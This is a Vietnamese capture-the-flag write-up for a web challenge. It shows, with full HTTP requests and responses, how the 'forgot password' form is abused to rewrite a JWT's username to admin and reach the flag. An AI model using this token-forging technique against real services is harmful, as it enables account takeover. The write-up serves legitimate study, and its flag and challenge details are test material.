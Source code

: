 # Logged now

Address: http://172.104.49.143:1579/

Try to logging in 

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193451751-3379e6ea-b3fe-448a-ad89-14415a6897dd.png" width="50%">
</p>

Check page source ta thấy
<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193451781-db9a4f24-098e-4fd0-8ec7-25fa7c387268.png" width="50%">
</p>


Đăng nhập acc `test/test`

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193451798-5c2f3a3f-3572-4b56-8fc2-51b3ddce848c.png" width="50%">
</p>


Check history ta có

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193451827-eb16dc00-f196-4d6a-b5f2-742409f421ef.png" width="50%">
</p>

Lại có JWT rồi kìa :) Dùng token.dev nhé

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193451874-f8e0e42b-a070-41c7-8c5d-3323dc6a8c9d.png" width="100%">
</p>

Mục tiêu là sẽ đổi `username` thành `admin` 

Check tiếp JWT tiếp theo

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193452003-22898fd3-81ba-4edf-ac1b-18c0af39f2c8.png" width="100%">
</p>

Đăng xuất nào...

Thử tính năng `forgot password`

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193452052-0071c58c-3805-4f14-95d7-3f7b281e730a.png" width="50%">
</p>

Khi submit thì nó tạo ra lỗi nhưng mà khi check Token nó vẫn thay đổi

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193452060-1054cd5e-1ba5-4791-b181-0d6000a3246f.png" width="50%">
</p>

Khi đăng xuất

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193452100-3bb91cfa-396a-482c-8425-b94e3a4e0b2d.png" width="100%">
</p>

Khi submit

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193452136-65c0f993-c749-4e8f-a3bb-3aae2e4c1cd4.png" width="100%">
</p>

Khi submit ta thấy Token cũng bị thay đổi, có vẻ như là username sẽ bị thay đổi từ tính năng này, cái ta cần là `username = admin` và `islogged = True`, ta có thể dựa vào acc test để lấy `islogged = True` và dùng `forgot password` để lấy `username` mới 

```http
POST /forgotpassword HTTP/1.1
Host: 172.104.49.143:1579
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.104.49.143:1579
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.104.49.143:1579/forgotpassword
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJpc2xvZ2dlZCI6dHJ1ZX0.Wjx11deR5S7aTH2Sdruo0t0CVQTIJV7wGhLIYPRFlOY
Connection: close

username=admin
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 02 Oct 2022 11:43:13 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1241
Connection: close
Set-Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNsb2dnZWQiOnRydWV9.sYB9cy-O6WDAfSEpF7dL5wTzmlejiR0xrI5ymMbsTWw; Path=/
....
```

Check token mới, mì ăn liền =)))
![image](https://user-images.githubusercontent.com/93431512/193452276-209469ef-f50a-4ac6-b391-941f1214a507.png)

```http
GET /info HTTP/1.1
Host: 172.104.49.143:1579
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNsb2dnZWQiOnRydWV9.sYB9cy-O6WDAfSEpF7dL5wTzmlejiR0xrI5ymMbsTWw
Connection: close
```
Và ta có flag: `Flag{uAsNp2OK2a3DBMXYR!i#}`
        




